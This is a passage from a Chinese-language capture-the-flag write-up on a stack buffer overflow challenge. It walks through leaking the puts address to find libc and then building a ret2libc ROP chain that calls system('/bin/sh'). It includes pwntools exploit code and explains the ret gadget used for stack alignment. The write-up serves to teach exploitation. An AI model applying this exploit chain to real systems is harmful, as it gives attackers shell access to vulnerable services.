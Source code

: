 看一下发送的数据

![](https://github.com/1094093288/IMG/blob/master/Pwn/noleak_stack/assets/13.png)

再次执行read会将buf+0x55以及以后的字节覆盖，这里可以使用p32(0x123454),末字节54填充i，剩余0x001234用于填充rbp剩余部分字节对齐.
## 泄露put地址，获取libc
之后填充pop_rdi,put_got,put_plt,main,泄露put地址，拿到libc，然后用同样的方法覆盖返回地址为system拿到shell。

![](https://github.com/1094093288/IMG/blob/master/Pwn/noleak_stack/assets/13.png)

## 获取shell

```python
    puts_addr = raddr(6)
    libc.address = puts_addr - libc.symbols["puts"]
    lg("libc address", libc.address)

    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    ru("?\n")
    buff = "A" * 0x40 + p32(84) + p64(pop_rdi) + p64(sh_addr) + p64(ret) + p64(system_addr)
    p.sendline(buff)
```
这里得说一下，p64(ret)的作用，system的系统调用要求内存16字节对齐，ret的作用就是对齐。

![](https://github.com/1094093288/IMG/blob/master/Pwn/noleak_stack/assets/14.png)

在没有ret的时候后正常应该在0x7ffd54354818处填充system，但是该地址不对齐，填充一个ret(8字节)，system填充在0x7ffd54354820处，字节对齐，如下
```python
>>> 0x7ffd54354818/16.0
8795376014465.5
>>> 0x7ffd54354820/16.0
8795376014466.0
```
## exp
```python
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.log_level=True
context.terminal = ['tmux','sp','-h']
```